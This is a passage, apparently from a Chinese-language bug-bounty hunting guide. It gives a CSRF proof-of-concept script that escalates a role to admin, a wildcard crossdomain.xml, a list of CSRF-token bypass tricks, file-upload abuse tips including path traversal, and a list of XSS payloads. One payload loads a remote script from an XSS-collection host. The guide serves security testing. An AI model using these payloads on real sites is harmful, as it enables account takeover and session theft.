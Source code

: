 POST请求数据为json，当服务器没有严格校验content-type类型时，POC为：

```
<script>  
var xhr = new XMLHttpRequest();  
xhr.open("POST", "http://www.xxxx.com/api/setrole");  
xhr.withCredentials = true;  
xhr.setRequestHeader("Content-Type", "text/plain;charset=UTF-8");  xhr.send('{"role":admin}');
</script>
```

##### 3\. Flash 型

Flash CSRF通常是由于Crossdomain.xml文件配置不当造成的，利用方法是使用swf来发起跨站请求伪造。

利用条件：

1、目标站点下必须存在crossdomain.xml文件。

2、crossdomain.xml中的配置允许其他域进行跨域请求。

```
<?xml version="1.0"?><cross-domain-policy>  <allow-access-from domain="*" /></cross-domain-policy>
```

**bypass小技巧**

-   删除csrf token
-   置空csrf token
-   修改请求方法，如POST方法变GET请求
-   使用与token相同长度的任意字符串替换token，例如尝试更改一个字符，看看或发生什么
-   使用固定token
-   token字段改成 token\[\]=

#### 任意文件上传漏洞

 这个洞遇到的也比较多，一般来说是后端没有限制上传文件的类型。但是上传的脚本文件也不会解析。也就没有办法getshell。(很多SRC对于上传到cdn云服务器的任意文件上传是忽略的)。

-   上传含有xss代码的html文件，造成存储型xss(如果上传到了cdn服务器之类的大概率忽略)。
-   上传恶意文件进行钓鱼
-   尝试在上传的文件名前加../进行目录穿越。
-   可以结合其他漏洞比如CORS漏洞扩大危害。

 文件上传的常见的绕过姿势应该也挺熟悉的了。。，实际测试的时候发现在进行申请企业、个人认证的时候，上传文件处常常有这个问题。

#### XSS漏洞

老熟人了，不多说了，常见的姿势大家应该都知道。分享一个我学XSS的文章:  
[https://wizardforcel.gitbooks.io/xss-naxienian/content/index.html](https://wizardforcel.gitbooks.io/xss-naxienian/content/index.html)

Broken5师傅的xsspayload:

```
<script>alert(1)</script>
<script src=https://xsspt.com/VBAhTu></script>
<a href=javascript:alert(1)>xss</a>
<svg onload=alert(1)>
<img src=1 onerror=alert(1)>
<img src=https://www.baidu.com/img/bd_logo1.png onload=alert(1)>
<details open ontoggle=alert(1)>
<body onload=alert(1)>
<M onmouseover=alert(1)>M
<iframe src=javascript:alert(1)></iframe>
<iframe onload=alert(1)>
<input type="submit" onfocus=alert(1)>
<input type="submit" onclick=alert(1)>
<form><input type="submit" formaction=javascript:alert(1)>
```
